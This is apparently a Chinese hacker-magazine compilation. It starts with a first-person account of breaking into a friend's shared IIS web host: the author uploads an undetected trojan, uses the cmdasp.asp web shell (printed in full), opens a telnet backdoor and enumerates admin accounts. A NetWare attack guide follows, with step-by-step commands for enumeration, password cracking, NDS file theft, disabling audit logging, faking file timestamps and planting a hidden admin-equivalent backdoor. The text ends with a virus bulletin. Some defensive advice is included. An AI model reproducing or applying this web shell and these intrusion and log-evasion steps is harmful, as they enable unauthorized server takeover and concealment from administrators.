

图 2

我总共计划上传两个文件，一个是 `win.exe`，一个是 `temp.asp`。`win.exe` 是我精心配置的一个大小仅有几 KB 的木马，不但功能强大，最大的好处是目前还没有被含最新病毒库的金山毒霸查杀。还有一个就是大家熟知的 ASP 木马 cmdasp.asp（我把它改名为 `temp.asp`，这样防止过快被网管注意）。`temp.asp` 不仅仅是个特殊木马，有些时候也能利用它拿到 admin。两个文件很快就上传完毕了。我们现在可以用刚上传上去的 ASP 木马查看一下服务器的详细情况了（见图 3）：



图 3

顺便查看我的 xhacker 空间目录在什么位置，用这条命令：

`dir /s d:\xhacker`

很快得出结果：

```text
驱动器 D 中的卷没有标签。
卷的序列号是 F00B-626E

d:\web2\xhacker 的目录

2002-06-02  19:57        6,976  win.exe

        1 个文件      6,976 字节

列出所有文件：
        1 个文件      6,976 字节
0 个目录 24,849,289,216 可用字节
```

现在知道我主页空间在服务器的绝对路径了，看到 `win.exe` 没有？这就是我刚刚传上去的木马。现在把 `win.exe` 的路径记下来，下面要用到。

再顺便看看账号情况：

```text
D:\>net user
\\ 的用户帐户

Guest              IUSR_INTERL-4VYGJ3RM
IWAM_INTERL-4VYGJ3RM
```


命令运行完毕，但发生一个或多个错误。根据经验看来账号权限被重新配置过，不然不会出现错误。这将意味着我不能在服务器本地用 net 命令创建账号了。看得出来，这方面还是下了一番功夫，administrator 默认账号也改名了。看来我没有先尝试破解是对的，破解的成功率实在太小了。

如果仅仅使用 temp.asp 当后门可不够保险，我决定另外开个后门。接下来我删除了 temp.asp，准备运行另一个 win.exe 木马。怎么运行它呢？了解 Unicode 的人都知道，有了木马在服务器的绝对路径，并且木马所在的目录有脚本可执行权限，我们就能运行它了（abc.exe 是我临时 copy 的一个 cmd.exe）（图 4）。



图 5



图 4

看到 IE 状态栏的进度条了吗？表示我们在服务器端运行了程序，速度会显得很慢，其实没必要等到进度条走完。了解 Web 服务器程序设计原理的话，就知道我们即使按停止也没关系，因为这已经在服务器上执行了运行程序的命令。现在就可以用刚开的后门进去。回到 cmd 窗口，执行命令：`telnet x.x.x.x 木马所开端口`，OK，成功进去了。现在我可以执行任何命令了，包括重启、关闭服务器、查看、上传、下载、删除任意文件等（见图 5）等。

可以看出安装了 php、perl 等。

再看看服务器的一些情况：

```text
D:\>net user secretboy
用户名                secretboy
全名
注释                  管理计算机(域)的内置帐户
用户的注释
国家(地区)代码        000（系统默认值）
```

```text
账户启用              Yes
账户到期              永不
上次设置密码          2002/6/2 上午 11:49
密码到期              永不
密码可更改            2002/6/2 上午 11:49
需要密码              Yes
用户可以更改密码      Yes
允许的工作站          All
登录脚本
用户配置文件
主目录
上次登录              2002/6/2 下午 08:16
可允许的登录小时数    All
本地组成员            *Administrators
全局组成员            *None
命令成功完成。
```

看来 administrator 账号改为 secretboy 了。我们可以把 SAM 抓下来在本地机破解（我发现现在 repair 有备份），不过我觉得我朋友的密码肯定很复杂，这样可以考虑放个捕捉密码的木马上去。但是没有这个必要去做，既然是帮朋友，怎么能这么做呢？接着我就通知他，告诉他服务器上的所有虚拟网站用户清单，而且我在他服务器上开了个后门，其端口是多少，怎么清除。他吓了一跳，赶快检查了一下，清了我的木马。然后他问我是怎么入侵的，我告诉他是利用了虚拟空间的 ASP 执行权限。其实他不知道这个漏洞的原理是什么，也就不知道怎么防范它，这样我下次依然可以再进去。而且我如果没记错的话，不但是 ASP 有此问题，PHP 和 Perl 语言都有相应的主页木马，在网上可以找到它们的木马程序。这里给出一份详细的主页木马下载网址：xhacker.xilubbs.com，共有 5 种类型的主页木马。

#### 二、漏洞的检测

假设网管自己的 IIS 5.0 服务器里面开一个叫 xhacker 的虚拟目录用来存放网页，支持 ASP，然后在 xhacker 虚拟空间放置我们刚才用的 cmdasp.asp。cmdasp.asp 在很多黑客网站都有下载，在这公布一个 cmd.asp 网页代码：

```asp
<%@ Language=VBScript %>
<%

Dim oScript
Dim oScriptNet
Dim oFileSys, oFile
Dim szCMD, szTempFile

On Error Resume Next

' -- create the COM objects that we will be using -- '
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")

' -- check for a command that we have posted -- '
szCMD = Request.Form(".CMD")
If (szCMD <> "") Then

' -- Use a poor man's pipe ... a temp file -- '
szTempFile = "C:\" & oFileSys.GetTempName()
Call oScript.Run ("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True)
Set oFile = oFileSys.OpenTextFile (szTempFile, 1, False, 0)

End If

%>
<HTML>
<BODY>
<FORM action="<%= Request.ServerVariables("URL") %>" method="POST">
<input type=text name=".CMD" size=45 value="">
<%= szCMD %>">
<input type=submit value="Run">
</FORM>
<PRE>

<%
If (IsObject(oFile)) Then
    ' -- Read the output from our command and remove the temp file -- '
    On Error Resume Next
    Response.Write Server.HTMLEncode(oFile.ReadAll)
    oFile.Close
    Call oFileSys.DeleteFile(szTempFile, True)
End If
%>
</BODY>
</HTML>
```

这样，只要 IE 运行这个 ASP 就可以操作服务器了。先 `dir c:\` 看看，如果看见了就说明有此漏洞，反之则没有。

#### 三、漏洞的防范

现在我们来讨论一下怎样帮助网管防范这种漏洞。我分为两种情况分别讨论两种防范策略：

- （1）我之所以能够跨越虚拟目录权限，是因为上传上去的 ASP 调用了 FileSystemObject 对象，从而实现了所有的命令操作。所以，如果你确定你的网站不需要支持 ASP，就干脆删除 ASP。方法如下：

执行“Internet 服务管理员”→ Web 站点菜单击鼠标右键 → “属性” → 主目录 → 配置 → 把所有“asp.dll”文件存在的字段都删除，默认共有四个。这样，你的 IIS 就不能执行 ASP 了，也就与 ASP 服务漏洞绝缘了。

- （2）以上的防范方法虽然简单又安全，但对 ASP 服务空间的提供商和 ASP 的主页就很不合适了。我想了许多办法，也参考了不少网上的资料，其中也有不少好的解决方案，但都太复杂了。后来我发现有一种简单的方法能非常好地解决这个问题：

我们只要禁止别人调用 FileSystemObject 对象就可以了，对 ASP 空间的用户来讲，也没有必要用到这个对象。我由此想到了注册表，是不是这个 FileSystemObject 对象就在注册表里？接着查找……

### 被遗忘的 NETWARE

文／沉舟

其实每种漏洞都有它自己的特点，也都可以弥补，但很多的网络管理员就是因为大意疏懒才导致黑客的不断得手，所以说，网络安全是个任重道远的过程，我们每个人都有自己的责任和义务去维护网络的安宁！

关于 NETWARE 的一个普遍错误的认识就是，他们的产品已经发展到不怎么用的程度了。其实，尽管它的市场份额已经萎缩，但还没有远远地消失，全世界还有几千万用户在拥抱着这个操作系统。公司的敏感数据的风险程度和以往一样。NETWARE 确实是不安全的吗？按照 NETWARE 专家的观点，确实是可以把它配置得固若金汤，但在许多缺省的情况下，却产生了很多攻击者所渴望的漏洞。举例来说，任何人都可以浏览本地服务器的 NETWARE DIRECTORY SERVICES（NOVELL 的目录服务，简称——NDS）。更具破坏性的是，NOVELL 不需要有密码，而创建账号时管理员也不必指定所创建账号的密码！下面我们就来看看对 NETWARE 攻击的一般过程。

#### 一、附接但不接触

攻击者采取的第一个步骤是创建一个到目标服务器的匿名附接。要理解什么是匿名附接，首先要看看 NETWARE 登录的一般过程。NETWARE 把登录设计成：要向一台服务器认证，必须首先要“附接”到该系统。附接和登录是彼此独立的。换句话说，即使是登录失败了，附接也是存在的。因此附接必须要有个用户名和密码，通过附接我们可以得到主机上几乎所有的信息，对于我们进攻它也是主要的一步。附接有很多的方法，我们主要介绍几款附接软件的应用。

- 1. **On-Site Admin**  
  这个出自 NETWARE 的图形化管理工具提供了关于服务器和 NDS 树的信息。它在加载时显示网络邻居里的各台服务器。这些服务器显示以后，用鼠标简单地选择其中的一台，就会创建一个到该服务器的附接。

- 2. **snlist 和 nslist**  
  它们和 On-Site Admin 所用的方法一样附接到所在网络的服务器，只是它们通过命令行来附接。

#### 二、查点绑定数据库和 NDS 树

在附接之后、认证之前的僵持状态，可以揭示本不该有的大量信息。例如 userinfo、userdump 等工具提供的是绑定数据库信息。

- 1. **userinfo**  
  它可以给出一台服务器上绑定数据库的所有用户的快速转储结果，也允许搜索单个的用户名。

- 2. **userdump**  
  显示出附接服务器的每个用户名，与 userinfo 类似，不过它给出的是全名。攻击者可以利用这些来进行社交工程。

- 3. **finger**  
  虽然它不足以来查点目标系统上的用户，但它在查找目标系统上是否存在某个用户时比较有用。

- 4. **bindery**  
  知道某台服务器的用户名自然不错，但我们还是需要一些额外的信息，比如说：属于 admins 的用户组是哪些用户？这个小工具就可以给出任意绑定数据库的信息，也允许查询单个的用户和用户组。例如：命令 `bindery admins` 就可以发现 admins 组的成员。

- 5. **cx**  
  change context 是个变化繁多的小工具，它可以显示 NDS 树或者其任意小部分的信息。它在查找 NDS 树中指定对象时特别有用。例如，攻击者发现某台服务器上的用户 ECULP 的密码后，可以使用 cx 搜索整棵 NDS 树，来查找自己是否有权限连到其他的服务器。以下是 cx 的一些小命令：

```text
cx /r
把当前的环境切换到 NDS 树根；

cx .
把当前的环境切换到 NDS 树向上一级的对象；

cx /t
显示在当前及以下的环境中所有容器对象使用的命令；

cx /t/a
显示在当前及以下的环境中所有对象使用的命令；

cx /t/a/r
从 NDS 树根开始查看所有对象。
```

#### 三、猜测密码

获得了以上的信息后，攻击者就开始试图登录，最好的方法就是猜测密码。

猜测密码的工具很多，但最好的还是 chknull；这个基于绑定数据库的工具在启用了绑定数据库的 NETWARE 3.0 和 4.0 上都可以工作。

在创建一个用户时，NETWARE 并不需要一个密码，结果造成了很多的服务打开方便之门。

chknull 对于猜测简单的密码是个非常合适的工具，其用法如下：

```text
Usage: chknull [-p] [-n] [-v] [wordlist...]
-p: check username as password
-n: don't check null password
-v: verbose output
```

它可以很容易地扫描出空密码和跟用户名相同的密码。

#### 四、获得管理性的特权

得到用户名和密码，接下去就是获得服务器或者某棵 NDS 树的管理性特权。完成这个步骤主要依靠以下 2 个技巧：

- 1. 偷窃

登录到尽可能多的系统上，找出密码存放的文件，其中保存着很多懒惰的用户以明文形式保存的密码。

可以使用 `nmap` 来映射 SYS 卷的根。例如：`map n secret /sys:\`，或者使用 On-Site Admin 来遍查访问到的每个目录。下面是一些十分有用的文件：

```text
SYS: SYSTEM
SYS: ETC
SYS: HOME
SYS: LOGIN
SYS: MAIL
SYS: PUBLIC
```

- 2. 利用工具：Nwpcrack

它是一个密码破解程序，允许攻击者针对某个用户执行一轮字典攻击。

#### 五、服务器程序脆弱点

- 1. NETWARE PERL

这是一个较早的 NETWARE 漏洞，允许攻击者在卷上的任意位置执行 Perl 脚本，包括用户目录或者 LOGIN 和 MAIL 之类的一般访问目录。

该漏洞的真正危险在于攻击者可以创建一个在浏览器中显示重要文件的 Perl 脚本。

- 2. NETWARE FTP

该漏洞缺省的配置给出了匿名用户对于 `SYS:ETC` 目录的 FileScan 访问权。该目录有 `netinfo.cfg` 以及其他的重要文件。

- 3. NETWARE WEB SERVER

WEB SERVER 并不检查传递给它的名为 `convert.bas` 的 Basic 脚本的参数，其后果是攻击者能够轻易地显示目标系统上的任意文件，包括 `autoexec.ncf`、`ldremote.ncf`、`netinfo.cfg`。

#### 六、欺骗性攻击

如果对于其他的尝试获取管理性特权的途径都不成功，那么攻击者可以使用 NCP 欺骗性攻击，它们可以给出和 Admins 一样的权限。

工具：gameover

它通过伪造一个 NCP“SET EQUIVALENT TO”的请求，诱使服务器完成请求的工作。

#### 七、获得了服务器的管理权限以后的工作

该服务器的 rconsole 访问权以及攫取 NDS 文件。（15）开始密码破解。

##### 1. rconsole 攻击

获得 rconsole 密码有很多方法，但最简单的只有一个，它依赖于管理员的疏懒。缺省的情况下 rconsole 是以明文来存放。下面是它的检查步骤：

- 1. 查看 `SYS:\SYSTEM\autoexec.ncf`；
- 2. 查找“load remote”所在的行，密码是下一个参数，一般是以明文来存放；
- 3. 如果在 `remote` 后面不是密码，而是一个 `-E`，恭喜你，那是管理员加密了的密码。下面你就要依靠软件来破解密码。著名的黑客 Dreamer 破译了这种加密的算法，他用 PASCAL 写了一个程序破解，详见 `www.nmrc.org/files/netware/remote.zip`。

##### 2. 攫取 NDS 文件

Novell 把 NDS 的文件存放在 SYS 卷上一个称为 `_netware` 的隐藏目录里。访问该目录的唯一途径是通过控制台。

##### 3. NetBasic.nlm

它允许把 NETBASIC 的脚本转化成 Novell NLM，以便在 NETWARE WEB SERVER 上使用。其后端的部件具备可以从某个命令行浏览包括隐藏的 `_netware` 目录的整个卷的能力。

下面是执行步骤和命令：

- 1. `SYS:\PUBLIC\rconsole` 命令获取 rconsole 访问途径；
- 2. `unload conlog`；
- 3. `load netbasic.nlm`；
- 4. `shell`；
- 5. `cd\_netware`；
- 6. `md\login\nds`；
- 7. `copy block.nds\login\nds\block.nds`；
- 8. `copy entry.nds\login\nds\entry.nds`；
- 9. `copy partitio.nds\login\nds\partitio.nds`；
- 10. `copy value.nds\login\nds\value.nds`；
- 11. `exit`（退出 shell）；
- 12. `unload netbasic`；
- 13. `load conlog`（把 conlog 返回到正常的状态）；
- 14. 从一台客户主机上使用 `map` 命令，把一个驱动器映射到早先创建的 `\login\nds` 目录；
- 15. 开始密码破解。

##### 4. dsmaint

如果目标服务器上有个具有安全意识的管理员，十分警惕，我们用上面的方法就会失败，这时候我们可以用另外的方法，即使用 dsmaint。

下载：`www.support.novell.com`。

要让 DS 恢复最初的作用，必须运行一个恢复操作。具体如下：

- 1. 把一个驱动器映射到 `SYS:SYSTEM`；
- 2. 把 `dsmaint` 拷贝到该驱动器上；
- 3. 使用 `SYS:\public\rconsole` 命令获取 rconsole 访问途径；
- 4. 输入 `unload conlog`，该命令将取消控制台记录器上所执行命令的记录；
- 5. 输入 `load dsmaint`；
- 6. 选中 `Prepare NDS for hardware upgrade`；
- 7. 作为 `admin` 登录。

`SYS:SYSTEM` 目录里自动保存一个名为 `backup.nds` 的文件：

- 1. 选中 `Restore NDS Following Hardware Upgrade`；
- 2. 输入 `load conlog`；
- 3. 从自己的客户主机上把一个驱动器映射到 `SYS:SYSTEM`；
- 4. 把 `backup.nds` 文件拷贝到本地系统里；
- 5. 使用 pandora 中的 extract 函数创建四个 NDS 文件（`block`、`entry`、`partitio`、`value`）；
- 6. 开始密码破解。

#### 八、破解 NDS 文件

攻击者下载了目标系统上的 NDS 文件，就要进行破解。pandora 中的 crypto 和 crypto2 可分别用于对 NDS 文件执行暴力破解和字典攻击。

具体过程如下：

- 1. 把 `backup.nds` 或者 `backup.ds` 文件拷贝到 `\PANDORA\EXE` 中；
- 2. 用 extract 实用工具从 `backup.nds` 中抽取四个 NDS 文件，使用命令：`extract -d`；
- 3. 再次使用 extract 实用工具从 NDS 中抽取密码散列值，建立一个 `password.nds` 文件，使用命令：`extract -n`；
- 4. 运行 crypto 和 crypto2 暴力攻击或者字典攻击。

字典破解该密码文件，使用命令：

```text
crypto -u Admin
crypto2 dict.txt -u deoane
```

#### 九、日志篡改

##### 1. 关掉审计功能

聪明的攻击者是最善于保护自己的，他们会检查审计配置，并为执行他们的工作而禁止审计事件。下面是用来禁止对 Directory Services 进行审计的若干步骤：

- 1. 启动 `SYS:PUBLIC\AUDITCON`；
- 2. 选择：Audit Directory Services；
- 3. 选择希望在其中工作的容器并按 F10 键；
- 4. 选择 Auditing Configuration；
- 5. 选择 Disable Container Auditing；
- 6. 现在就可以把容器和用户加到这个选中的容器里。

##### 2. 变更历史文件

攻击者修改诸如 `autoexec.ncf` 或 `netinfo.cfg` 等文件后不希望被发觉，可使用 `SYS:PUBLIC\FILER` 把文件的修改时间变更回去。与在 Linux 和 UNIX 平台上使用 `touch` 类似，使用 filer 来改变。

##### 3. 篡改控制台日志

`conlog.nlm` 是 Novell 用于记录控制台消息和错误的方法，不过对于它很容易绕过。在取得 rconsole 的访问权限以后，攻击者可以执行 `unload conlog` 来停止一个文件中的记录，以后再执行 `load conlog` 以重新开始在一个崭新的 `console.log` 文件里记录。

服务器的自举和运作阶段的系统错误和消息永久地记录在 `SYS:SYSTEM\sys$err.log` 文件中，有了管理员的权限以后，可以轻易地对它进行修改。

#### 十、后门

对于 NETWARE 最好的后门就是不要执行任何东西的“孤儿对象”！

在某个与 Admin 等效的用户对于自己的容器具有受托者权力的前提下，使用一个隐藏的 Organizational Unit（OU）可以有效地隐藏孤儿对象。步骤如下：

- 1. 作为 Admin 或者是等效的用户登录；
- 2. 启动 NetWare Administrator；
- 3. 在 NDS 树的某个深层环境里创建一个新的容器，用鼠标右击一个已经存在的 OU，选中后 CREATE，再选择一个 OU，就创建出一个新的 OU 来了；
- 4. 在该容器内创建一个用户。鼠标右击新容器，选中 Create 后再选 User 即可；
- 5. 给这个用户以对自己对象的完全受托者权力。鼠标右击新用户，选中 Trustees Of This Object，让该用户成为一个显式的受托者；
- 6. 修改该用户属性，让他在安全上与 Admin 等效。鼠标右击该用户，依次选择：Details、Security Equivalent To 标签、Add 和 Admin；
- 7. 修改所创建容器的 Inherited Rights Filter，禁止 Browse 和 Supervisor 能力；
- 8. 现在就可以通过后门登录。

关于此后门的详细信息，可见 `www.nmrc.org`。对于 NETWARE 的简单攻击我就介绍到这里，更多的消息请大家去 Novell 的大本营，里面有很多的安全信息：

- `http://developer.novell.com/research/topical/security.htm`
- `http://netlab1.usu.edu/novell.faq/nov-faq/nov-faq.htm`
- `www.futureone.com/~opeth/freedos.htm`
- `www.futureone.com/~opeth/nwutils.htm`

也可以参看新闻组：

- `comp.os.netware.misc`
- `comp.os.netware.announce`
- `comp.os.netware.security`
- `comp.os.netware.connectivity`

通过以上简单的分析来看，尽管 NETWARE 的历史悠久，但对于安全还是重视不够，攻击一台服务器，获得用户的访问并获得服务器的 NDS 树的 ADMIN 访问权限都是很简单的事。

其实每种漏洞都有它自己的特点，也都可以弥补，但很多的网络管理员就是因为大意疏懒才导致黑客的不断得手。所以说，网络安全是个任重道远的过程，我们每个人都有自己的责任和义务去维护网络的安宁！

### 黑防病毒公告栏

#### ★病毒名称：SQLSPIDA.B

SQLSPIDA.B 会搜集相关信息并寄给特定的电子邮件地址，这将使得攻击者可以借着后门程序，远程取得 SQL Server 的所有资料。

杀毒厂商建议使用者立即更新至最新病毒代码并使用防毒软件扫描，若是发现系统当中有 TROJ_SQLSPIDA.B、BAT_SQLSPIDA.B 和 JS_SQLSPIDA.B 等程序，需立即将其删除，并且彻底移除非内部授权的系统管理员。

病毒特征：SQLSPIDA.B 是只 JavaScript 的蠕虫，它是由几个 component 文件所构成。SQLSPIDA.B 会复制相关组件至 SQL Server 系统，以危害系统安全。其中的一个 component 文件是 BAT_SQLSPIDA.B，这个批处理文件主要是用来窃取 IP Address 和随机数字生 password，以入侵 SQL 服务器。另外一个文件是 TROJAN_SQLSPIDA.B 木马程序，它会通过 TCP Port 1433 扫描 SQL Servers 的 IP Addresses。由于它会使用 100 个线程（thread）进入这个 port，并试图产生 1 万次的连接以致造成局域网络带宽受阻。

一旦 SQLSPIDA.B 成功地完成所有动作，它将会在现行目录下产生一个“.OK”的文件，否则将产生“.FAIL”文件。

#### ★病毒名称：W32.Pet_ticky.gen

- 病毒大小：9,216 字节
- 病毒类型：蠕虫

W32.Pet_ticky.gen 是一个蠕虫病毒，由 Visual Basic 编译，并经 UPX 压缩。病毒会向 Microsoft Outlook 地址簿中的所有联系人发送带毒邮件。带毒邮件有以下特征：

- 主题：New Visual Tool for U
- 正文：Look at this new tool by clicking on attached file.
- 附件：Visual_tool.exe

当病毒被运行后，显示如下所示信息：

病毒建立 C:\Backup 文件夹，并将自身拷贝到该文件夹，文件名随机。病毒还将自身拷贝到 C:\My Documents 下，取名为 Desktop.injold_.exe；将自身拷贝到 SYSTEM 目录下，取名 Kern32dll.exe。

病毒修改注册表，在注册表：

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
kern32dll  C:\%system%\kern32dll.exe
```

下添加：

以便系统启动时病毒可以自动运行。

病毒向 Microsoft Outlook 地址簿中的所有联系人发送具有上述特征的带毒邮件。

#### ★病毒名称：WIN32.SULPEX

病毒特征：特别危险的常驻内存 WIN32 病毒。是一个 WIN32 PE EXE 文件，大约 230KB，用 Delphi 写成，使用了 UPX 打包。

病毒寻找所有 A: 到 Z: 盘上的文件（除去 Windows 目录），感染所有的以 .EXE 为后缀名的文件，而其余文件则加密。当病毒感染文件时，把原始文件复制为加有前缀“PRM”的文件（比如“PRMCALC.EXE”），而原始文件被病毒副本重写。它对非 EXE 后缀名文件的前 4000 byte 加密。每加密 1000 个后，就在桌面上建立文件名以“WARNING”开头的文本文件，内容为：

> Вниманий некоторые файла на вашем компьютере зашифрованы или испорчяны для решения данной проблема пиши te na Wmrb2000@pisem.net или для решения данной проблема пиши te na wmrb2000@mail.ru вам будут выслана подробный инструкция

该病毒由俄罗斯著名反病毒公司 Kaspersky Lab 首先发现。“SULPEX”是一个传统型的电脑病毒，不含有附电子邮件自动传播功能（网络蠕虫的功能）。它仅当使用者自行执行了该病毒时才对电脑有害（比如从 Internet 或是其他类似软盘、光盘介质得到它，并执行）。病毒在桌面上建立文件名以“WARNING”开头的文本文档。该病毒其中的一个版本还会把 Internet Explorer 的主页定为 WMRB2000.PISEM.NET。

#### ★病毒名称：I-WORM.MYLIFE.B

- 病毒类型：蠕虫
- 感染方式：传播的邮件方式
- 邮件主题：BILL CARICATURE
- 附件文件：CARI.SCR（11,524 字节）

```text
HIIIII
HOW ARE YOUUUUUUUU?
LOOK TO BILL CARICATURE IT'S VVVERY VERRRRY FFFFUNNY :-) :-)
I PROMISE YOU WILL LOVE IT? OK
BUY
=======NO VIRUSE FOUND=======
MCAFEE.COM
```

- 病毒特性：
  1. 通过 MAPI 向注册在 Outlook 地址簿的用户发送带有蠕虫附件的文件。当执行附件的文件时，会显示一个图像，并在 Windows 系统的文件夹里复制 CARI.SCR 文件。

#### ★病毒名称：I-Worm.KaZaa.Benjamin

病毒特征：最新病毒“I-WORM.KAZAA.BENJAMIN”是通过文件共享网络传播的病毒，如果网络中存在共享而进行文件交换时，该病毒就会利用客户端进行传播。

